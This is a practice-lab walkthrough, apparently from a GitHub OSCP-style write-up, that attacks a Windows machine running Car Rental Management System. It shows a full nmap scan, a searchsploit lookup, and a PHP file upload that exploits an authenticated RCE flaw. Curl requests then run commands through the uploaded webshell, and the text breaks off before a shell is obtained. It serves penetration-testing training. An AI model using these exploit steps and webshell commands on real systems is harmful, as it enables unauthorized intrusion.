 # 0. Sources

||||
|---|---|---|
|[Reddit](https://www.reddit.com/r/oscp/comments/qd8w9v/need_more_practice_hack_this_windows_practice_box/)|[YouTube](https://www.youtube.com/watch?v=PBlmcWVNBqY)|[Download](https://drive.google.com/file/d/1dRaQ8885JNwsWqYIxBURglkyjtGO3jjZ/view)|

# 1. nmap scan

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.34
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 16:13 +08
Nmap scan report for 10.0.88.34
Host is up (0.0017s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.17 ((Win32) OpenSSL/1.0.2d PHP/5.6.14)
|_http-server-header: Apache/2.4.17 (Win32) OpenSSL/1.0.2d PHP/5.6.14
| http-title: Car Rental Management System
|_Requested resource was http://10.0.88.34/car-rental/
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.17 ((Win32) OpenSSL/1.0.2d PHP/5.6.14)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.17 (Win32) OpenSSL/1.0.2d PHP/5.6.14
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn:
|_  http/1.1
| http-title: Car Rental Management System
|_Requested resource was https://10.0.88.34/car-rental/
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
445/tcp   open  microsoft-ds  Windows 10 Pro 14393 microsoft-ds (workgroup: ITSL)
3306/tcp  open  mysql         MariaDB (unauthorized)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-11-29T08:14:24+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=cars
| Not valid before: 2022-11-28T08:10:32
|_Not valid after:  2023-05-30T08:10:32
| rdp-ntlm-info:
|   Target_Name: CARS
|   NetBIOS_Domain_Name: CARS
|   NetBIOS_Computer_Name: CARS
|   DNS_Domain_Name: cars
|   DNS_Computer_Name: cars
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-29T08:14:16+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  msrpc         Microsoft Windows RPC
⋮
```

# 2. Checking for exploits

The target appears to be running a web application called `Car Rental Management System` on HTTP and HTTPS

Let's see if there are any exploits in this:

```console
┌──(root㉿kali)-[~]
└─# searchsploit Car Rental Management System
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
Car Rental Management System 1.0 - 'car_id' Sql Injection                   | php/webapps/49056.txt
Car Rental Management System 1.0 - Arbitrary File Upload                    | php/webapps/48931.txt
Car Rental Management System 1.0 - Remote Code Execution (Authenticated)    | php/webapps/49055.txt
Car Rental Management System 1.0 - SQL injection + Arbitrary File Upload    | php/webapps/49025.py
Car Rental Management System 1.0 - SQL Injection / Local File include       | php/webapps/49177.txt
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The RCE one looks interesting, the [exploit details](https://www.exploit-db.com/exploits/49055) states to submit a `POST` request to `/car_rental/admin/ajax.php?action=save_settings` that uploads a php file that allows us to execute code

# 3. Testing the exploit

☝️ Notice that the path `car_rental` in the exploit is wrong, it is supposed to be `car-rental`

**Important learning point:** always check the exploit code

## Using Burp Suite to send the exploit

Browse to the target to allow Burp Suite to capture the activity, then select **Send to Repeater**:

![image](https://user-images.githubusercontent.com/90442032/204480542-99cfa163-5551-4526-a55f-18a154821170.png)

Edit the request with the exploit and send the request:

![image](https://user-images.githubusercontent.com/90442032/204480820-4312cf1b-3ebe-4430-82af-241419e61bee.png)

## Using the exploit uploaded

The exploit usage states to use `http://{site}/admin/assets/uploads/{FILE}.php?k=whoami`, but what is the filename uploaded?

Reading the exploit code ` $fname = strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];` suggests that it should be in the form of `<epoch-time>_k.php`, but it doesn't help as it's difficult to pinpoint the time of upload

Luckily, the `car-rental/admin/assets/uploads/` path is listable, and we can get the filename from there

```console
┌──(root㉿kali)-[~]
└─# curl http://10.0.88.34/car-rental/admin/assets/uploads/1669710180_k.php?k=whoami
cars\mini

┌──(root㉿kali)-[~]
└─# curl http://10.0.88.34/car-rental/admin/assets/uploads/1669710180_k.php?k=whoami%20/groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```

Well done, we got RCE with a admin user `mini`, let's try to get a shell
